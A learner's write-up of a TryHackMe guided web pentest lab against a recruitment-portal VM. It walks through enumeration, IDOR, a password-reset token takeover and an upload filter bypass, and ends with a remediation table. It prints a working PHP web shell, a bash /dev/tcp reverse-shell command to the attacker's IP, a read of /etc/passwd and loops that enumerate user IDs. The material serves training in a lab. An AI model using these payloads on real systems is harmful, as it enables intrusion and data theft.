# #️⃣ Guided Pentest: Web

**Path:** Jr Penetration Tester > Penetration Testing Foundations > Guided Pentest: Web  
**Date:** 21-23/06/2026  
**Difficulty:** Easy (THM) / easy (me)

## 📋 What this room covers

The room walks you through a guided pentest for a web application (internal recruitment portal). It almost serves as a foundational checklist taking you through recon and enum, IDOR, password reset exploitation, gaining access to the admin panel, and, finally, RCE :fire:

... After I finished the Cyber Security 101 learning path I promised myself to be less excitable and more formal in these write-ups, but what is :fire: if not RCE?..

## 💻 What I did / learned

What a fantastic room. I've actually read through it on my phone while resting on the sofa and it was such an encouraging experience as I understood absolutely everything. Having finished THM's foundational 101 path (Cyber Security 101) I still battled with imposter syndrome, especially during the exam. I'm not saying I'm hugely knowledgeable just yet, not at all, but it was such an uplifting experience just going "yup, yup, aha, yes, of course, and that too, yeah" instead of "huh? what is that? why are we doing this?". Of course, once I finished reading through most of the room, I lifted my bum and went back to my PC to walk through the challenge on AttackBox + VM myself and document it in this write-up.

Fun fact: before I started doing write-ups I hated the idea of doing them, now it became a guilty pleasure. I do hope nobody is taking them and my attempts in official reports, that would actually be concise, data-driven and formal :) #10yearsinQA

So, let's begin!

---

### Recon & Enum

So we have access to AttackBox (our attacker's machine) and a VM (target machine). Both loaded and ready to go. What do we do first only knowing the IP address? Let's see :monocle:

---

#### Port Scanning

```
nmap -sV -sC -p- 10.128.165.0
```

The good old Nmap tells us that there are four services running:



<br>

**Meaning:**
- SSH service (22) - hopefully for later use if we happen to obtain a set of credentials
- Apache web server (80) - our target application's web server
- MySQL (3306) - database that our target application is using
- Apache web server (8080) - default page for the server

---

#### Application Exploration

Let's now explore the actual app. Having accessed the target IP on Firefox, we established (why we? I guess me and THM author) that the landing page of the internal recruitment portal has a navigation panel with **Home**, **Jobs**, **Login** and **Register**. I could also see **Browse Jobs** and **Create Account** in the main body of the webpage.

From there we executed a curl command to check the response in the terminal

```
curl -I http://10.128.165.0
```



<br>

This told us that the web application is using PHP. This is where the THM author said "aha, a classic LAMP configuration"... a "LAMP" (said I)? This is how my first side-quest of the room started. No, actually I tell a lie, the first one when I finally decided to read up on Apache (and also to check pronunciation), the second one was reading about LAMP. Turned out it was a technology stack of Linux, Apache, MySQL and PHP (and that PHP could also be substituted by Python).

So, that's great, now we confirmed the tech stack the web app is using!

---

#### Directory Enumeration

Next step is gathering further information about the app's directories. G(h)o(st)buster (that's how I always read it in my head) will help us here.

```
gobuster dir -u http://10.128.165.0 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```



<br>

What do we have here (among others)...
- `/uploads` - cheeky, I already know what to do with it, thanks Cyber Security 101 path!
- `/admin` - requires authentication and authorisation
- `/api`
- `/config` & `/data` - could be interesting, although the walkthrough didn't explore it, should I knock?
- `/profile` and `/dashboard` - both require authentication and promise to play an interesting part in our adventure
- `/reset`

---

#### Registering an Account

The room suggested to log in with an existing account to look around at the available features. After signing in, we found ourselves at /dashboard.php, where we saw **Open Positions**, **Total Applications**, **Browse Jobs** and other related functionalities. It then suggested to view our own profile which exposed our first potential vulnerability, welcome to **IDOR**!

```
http://10.128.165.0/profile.php?id=6
```



<br>

... Jen, hold your horses. IDOR is the _next_ section. OK, moving on!

---

#### Exploring the API

Since we found the `/api` endpoint earlier, we gotta investigate it further:

```
curl http://10.128.165.0/api/
```

Oh my, Christmas came earlier. This api just handed the endpoints to us just like that. Well, thanks very much (if I sound arrogant or overconfident at this point, please know I am joking around - and enjoying myself too much - I do know it's not going to be as easy, far from it, in a real world scenario)



---

### IDOR

At last, IDOR! Just a reminder (to me?) that IDOR stands for **Insecure Direct Object Reference**, and is one of the most common flaws in web applications (just ask OWASP Top 10! (see *Broken Access Control, A01*))

IDOR is basically a design flaw that allows you to access another user's data. Remember our profile earlier from the previous section (`http://10.128.165.0/profile.php?id=6`)? ID 6 hints at our account being the sixth user that was created in the system. It begs a question what we'd see trying to change it to ID 1.

```
http://10.128.165.0/profile.php?id=1
```

Well well well, what do we have here. An administrator profile!



<br>

The most interesting thing we get here is the email address of the administrator: s.mitchell@recruitx.thm. Let's shelve it for now and do this request using `curl` too.

Hmmm, THM text said I could do `curl` too, but it returns nothing. Maybe session cookie is required? I will try again once I have it just out of curiosity.



<br>

The next step is to extract a cookie using Firefox DevTools. Right click -> Inspect -> Storage -> Cookies -> select `http://10.128.165.0` -> PHPSESSID -> copy value:



<br>

We got our cookie!

```
PHPSESSID:"qvmmje2vbvmcrml98bp2d3grgl"
```

... sneaky detour to `curl` again:

```
curl -b "PHPSESSID=qvmmje2vbvmcrml98bp2d3grgl" http://10.128.165.0/profile.php?id=1
```

This works!

So remember I said I get carried away? So I used `curl` and got a huge response back:



<br>

So I was like - Claude, can you help me filter the response. In the browser I was interested in the role and email, any ideas? Claude suggested this:

```
curl -sb "PHPSESSID=qvmmje2vbvmcrml98bp2d3grgl" http://10.128.165.0/profile.php?id=1 | grep -i "name\|email\|role"
```

This gave me this:



<br>

Claude, but there are no values. Here's the full response. Can you craft me a better command? (I know I probably should have done it myself, but a combination of wine + my wonderful boyfriend nearly finishing cooking a lovely dinner for us made me feel it would not hinder my learning too much if I ask Claude to filter the output for me).

```
curl -sb "PHPSESSID=qvmmje2vbvmcrml98bp2d3grgl" http://10.128.165.0/profile.php?id=1 | grep "fw-semibold"
```

Aha!



<br>

Lovely. Now we have the stuff we need using `curl`. So back to _"So remember I said I get carried away?_, guess what's the next step in THM room? They walk us through the `curl` and already giving us the full command. Lol. But I mean I'm glad I did it myself*! (_*With Claude_)

So what is our observation? Both in the browser and in the terminal, we can access other users' data (including administrators) without any authentication. Not good!

Since we spotted our `/api` endpoint earlier, we want to try and see if this vulnerability is present there:

```
curl -s "http://10.128.165.0/api/user?id=1"
curl -s "http://10.128.165.0/api/user?id=2"
```



<br>

Nooo, Claude, my eyes! Why the cursor is not on the same line?!



<br>

Of course, it bothers me.



<br>

Isn't that better?.. Of course, I couldn't stop at that. All the possibilities... _Claude!_

```
for i in {1..6}; do curl -s "http://10.128.165.0/api/user?id=$i"; echo; done
```



<br>

Woah... _Claude!_

```
for i in {1..100}; do result=$(curl -s "http://10.128.165.0/api/user?id=$i"); [ -z "$result" ] && break; echo $result; done
```



<br>

Woah x100. So I wanted to see if we could find more users. I asked Claude we can loop through all existing, he (yeah, he) said that we need to give a range and filter out empty results. 

_Oh no, my machines timed out. Have I really been at this for two hours?_

_CLAUDE!_

```
for i in {1..100}; do result=$(curl -s "http://10.128.165.0/api/user?id=$i"); echo "$result" | grep -q '"name"' || break; echo $result; done
```



<br>

Gorgeous!.. I think my boy is tired of me though:



<br>

So what's the outcome of this shenanigans? As mentioned earlier, IDOR vulnerabilities are among the most common web application flaws. Developers assume the users would only try to access their own data, which leaves other users without any defences. Needless to worry, the fix is simple, just verify the currently authenticated user has permissions to access the requested object and, ideally, don't make the object IDs so easy to guess.

---

### Weak Password Reset

This is an interesting one. So we have the email of the administrator, right? Let's try to take over her account. Of course, there is a route of trying to guess her account, but this can be problematic and time-consuming due to lockouts, instead, the first smart thing to do would be _(random thought: I miss David J. Malan's lectures, I should go back to it, his ways to call things and people "smart" and "stupid" is very refreshing and actually helpful)_, to check out the password reset page first.

_(Another random note: dinner is ready, and when we have food, I turn my temporary work desk into a "bubble" desk where my boyfriend is using my second PC to play games, we eat and watch telly... I didn't want to set up my first PC for me so... HELLO PARSEC! <3 (on my mac now :rock:. God. Remember I said I would try to be less excitable and more formal?))_

Let's continue. What `http://10.128.165.0/reset.php` tell us?



<br>

It suggests that we can generate a reset token. Where would it go?



<br>

We attempted to generate the reset token and instead of it being sent to our email address, it is displayed on the password reset page alongside the reset URL. Another huge thing to mention is that I'm not actually signed in as my tester account right now. I will try to reset the password for my tester account anyway as the first check, and then will try to do the same with the administrator's account.

Resetting password worked. Now trying with the administrator account (`s.mitchell@recruitx.thm`)... We are in!



<br>

It's also worth noting that the tokens seem to be limited to 6 digits, and I've just tried generating a few of them for the same account, and there doesn't seem to be any rate-limiting going on. Obviously in this particular case this doesn't make it worse as we can just reset the account ourselves using the first token, but this was not possible, not having lockouts could make the accounts be vulnerable to brute-force attacks.

---

### Admin Panel Access & /upload

Having gained access to the administrator's account, we are then going to explore the Admin panel. The most interesting finding is the functionality of uploading files (`/upload`).

After further examination, we can see that the UI of the page implies that only PDF, DOCX, or image files are accepted. Another thing to mention is that they give us the location where the files will live on the server which is another design flaw.



<br>

In the attempt to investigate further, we can inspect the **Upload** button (right click -> Inspect).



<br>

We can see that the developers added client-side validation by using `accept` attribute which restricts file type. Since this is enforced by the browser, we can use our DevTools to remove this attribute and see if we can bypass it, and if the server will end up accepting any file type.



<br>

Now we need to test if the server will accept any file formats. `txt` was not accepted.



<br>

No need to worry, while we didn't succeed, we obtained valuable information. So there is some server-side validation. Now we need to see how thorough it is. We can try uploading a `php` file (as the most useful for us). Rejected. THM then discloses a common way to bypass this validation by uploading a `phtml` file type, which still often gets processed by Apache as PHP, but not all developers forbid this file type as a less common one.

```
echo '<?php echo "PHP is executing"; ?>' > test.phtml
```



<br>

Now we can verify whether our uploaded file actually executes on the server (`http://10.130.172.13/uploads/documents/test.phtml`):



<br>

The server executed our PHP code and returned the output on the web page. This means we can proceed to attempting to gain remote code execution.

---

### Remote Code Execution

We can use a web shell - a script that accepts commands through HTTP parameters and executes on the server - to gain remote code execution. We decided to create the following script, save it as `shell.phtml` and upload it to `http://10.130.172.13/admin/upload.php` using our admin account:

```
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
```

This script checks for `cmd` parameter in the URL, and if it's present, it passes the value to `shell_exec()` which runs the command on the OS and returns the output.

Now it's time to test it, we opted in to do it using `curl`:

```
curl "http://10.130.172.13/uploads/documents/shell.phtml?cmd=whoami"
curl "http://10.130.172.13/uploads/documents/shell.phtml?cmd=id"
```



<br>

We can, of course, do this using the URL bar itself:



<br>

We established that we have indeed gained remote code execution. Our commands run as `www-data`, which is the default user for the Apache web server on Ubuntu. Now we have investigate the system:

```
curl "http://10.130.172.13/uploads/documents/shell.phtml?cmd=hostname"
curl "http://10.130.172.13/uploads/documents/shell.phtml?cmd=uname+-a"; echo # adding a new line as it bothers me
```



<br>

From these commands we established hostname and kernel version.

Now the most interesting part starts, potentially reading sensitive files. Let's first look at system files that list all users. In Linux, `/etc/passwd` contains basic account information:

```
curl "http://10.130.172.13/uploads/documents/shell.phtml?cmd=cat+/etc/passwd" | grep -v "nologin"
```



<br>

This helped us to identify system users. This level of access would enable us to do further enumeration of configuration files to extract database credentials and gain full access to the application's backend data (how exciting!).

---

#### Obtaining a Reverse Shell

Our next task is to obtain a reverse shell as a web shell is quite limited - each command is treated as a separate HTTP request, there is no interactive session, and complex commands with special characters can be tricky to pass through URL parameters.

First thing to do here is to set up a listener on the attacker's machine (AttackBox):

```
nc -lvnp 4444
```



<br>

In a second instance of a terminal, we can use our web shell to trigger the reverse shell:

```
curl "http://10.130.172.13/uploads/documents/shell.phtml?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.130.84.121/4444+0>%261'"
```



<br>

Let's confirm we can execute commands on the reverse shell:



<br>

And... it works! From here, as per THM, a penetration tester would typically proceed to local enum and privilege escalation, but, sadly, this is out of scope for this room. They did give us another task to make sure we followed along, capture the flag!

```
cat /var/www/flag.txt
```



<br>

This is all for the practical. The next section in this room is "Attack Chain", it covers reporting. This is where I will be formal, promise! Sadly, I need to start work in a few minutes, so I will have to finish this later

---

### Bringing It Together

Since the next section is devoted to formal reporting (THM already did it for us, so I will copy/paste their version), I wanted to add another section prior to that to bring it all together in my own words

This room was really interesting, we've done the full pentest on a web application and went from nothing to setting up a reverse shell on the target's server. Food for thought for me is that while we've found a few vulnerabilities, on their own they are not critical (even though terrible and I need an eye bleach now). But stack quickly and then end up having a domino effect. So let's summarise what we did:

- Enumeration: established the applications tech stack (LAMP, a.k.a. Linux, Apache, MySQL and PHP), its directories, an API endpoint, a password reset page, an uploads page, an admin panel
- IDOR: profile page and api users page accepted a predictable value for `id`, which allowed us to check data for other users, and obtain admin's name and email address
- Improper password reset functionality: the reset functionality displayed the token directly in the HTTP response, which meant that once we got the admin's email address, we managed to reset her password
- Admin panel: once we got the admin's account access, we opened this panel and gained access to the file upload functionality (which had poor validation practices)
- RCE: we set up a web shell by using a PHP script with `.phtml` file extension to bypass the poor validation filter. From there we were able to progress to setting up a reverse shell with an ability to execute commands on their server from our terminal

As illustrated above, none of the vulnerabilities were "dangerous" on their own - we wouldn't be able to get a web shell going if the server-validation was solid. But we wouldn't reach the uploads page if the password reset mechanism wasn't poor. We wouldn't be able to exploit the password reset vulnerability if IDOR wasn't there. And of course, the exposed API index was a cherry on top

---

### Reporting

| Vulnerability | Severity | Remediation |
|---|---|---|
| IDOR on user profiles and API | High | Implement server-side authorisation checks on every request. Verify that the authenticated user has permission to access the requested resource. |
| Password reset token exposed in the response | Critical | Send reset tokens exclusively via email. Display only a generic confirmation message on the page. Use cryptographically random tokens of at least 32 characters. |
| Incomplete file extension blocklist | Critical | Use an allowlist rather than a blocklist. Only permit specific, expected extensions. Validate file content (MIME type) in addition to the extension. Store uploaded files outside the web root. |
| API endpoint disclosure | Medium | Remove the API index endpoint or restrict it to authenticated administrators. Do not expose internal route structures to unauthenticated users. |

## 🔍 Power through struggle

- Surprisingly, none. And again, loved every minute of it and all my detours and side quests!

## 💡 Key takeaways

- A single vulnerability may not be detrimental to the target, but when there are several of them, they can be combined into something devastating
- IDOR is very common and allows moving laterally between users to gain data belonging to other people, or even view (or gain) access to an admin account (escalate privilege)
- Password reset mechanism should be robust and tokens should be sent to emails only, as well as tokens themselves should be at least 32 characters long (and cryptographically random)
- Token generation should have rate limiting
- It's very easy to bypass client-validation (THM called it "decoration", I would say it's like user-friendly nudge when a user does something wrong, so I guess decoration indeed?), server-validation has to be solid and use `allowlist` rather than `blocklist`
- Developers should take great care not to expose endpoints, features and services unnecessarily, and when features are exposed, they should be properly protected by authentication and authorisation on every request
- I think I made the right choice going for the pentester path!